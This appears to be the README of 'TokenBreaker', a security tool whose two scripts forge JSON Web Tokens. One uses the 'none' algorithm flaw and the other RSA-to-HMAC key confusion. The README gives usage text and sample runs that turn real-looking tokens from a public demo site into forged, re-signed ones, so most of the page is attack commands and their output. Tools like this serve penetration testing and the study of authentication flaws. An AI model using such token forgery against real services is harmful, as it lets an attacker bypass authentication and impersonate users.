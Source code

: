 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

<ul>
  <li>None Algorithm</li>
  <li>RSAtoHMAC</li>
</ul>

Refer to <a href="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" >this</a> link about insights of the vulnerability and how an attacker can forge the tokens

<p>Try out this vulnerability <a href="http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?">here</a></p>

<h1>TheNone Usage</h1>
<code>
<pre>
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
</pre>
</code>

<h1>Output</h1>
<code><pre>
./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

Decoded Header value is : {"alg":"HS256","typ":"JWS"}
Decode Payload value is : {"login":"adm","iat":"1537523122"}

New header value with none algorithm:
{"alg":"none","typ":"JWS"}

Successfully encoded Token: 
eyJhbGciOiJub25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.
</pre></code>


<h1>RSAtoHMAC Usage</h1>
<code><pre>
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>

<h1>Output</h1>
<code><pre>
./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.GwWRgb31V7OaxFt9wMd8LlLWWi4Z3zJ4NL7k38yz2mRYzKht1cFYrsxQv4DJdGLwV6D6L08iwF7_J90usGnJoLw8OLVUZvcDRH8rgGtpICSjhv1qaWiHW4-Gcqet4NieJLuvZzJn2imV2-x5TUDJJICKUaj183EvuJTOnjWuD0-ieT3ixhXbm0-E_9LqsGIUJrRQZfPkFOgpH8OLaJYscJwUghWOEphYV-jeek91Qu3TJkeXUuIUUuCF_l6x3eIHheQ0eYLuFc7Ug85HFWemeQ4rK7kMr8sDd3YKnFwZIoDPF6gnnr3lNOydDbpjn-KHnu1oU0E2zk1NIgHPs4TVww -p /tmp/pub

Decoded Header value is : {"typ":"JWT","alg":"RS256"}
Decode Payload value is : {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}

Enter your header Value: {"typ":"JWT","alg":"HS256"}
Enter your payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}

Successfully encoded Token: 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.aZ03C84GU7WfIFsyvRzr9NUhtDQttOvA6CW5fUxGXmU
</pre></code>



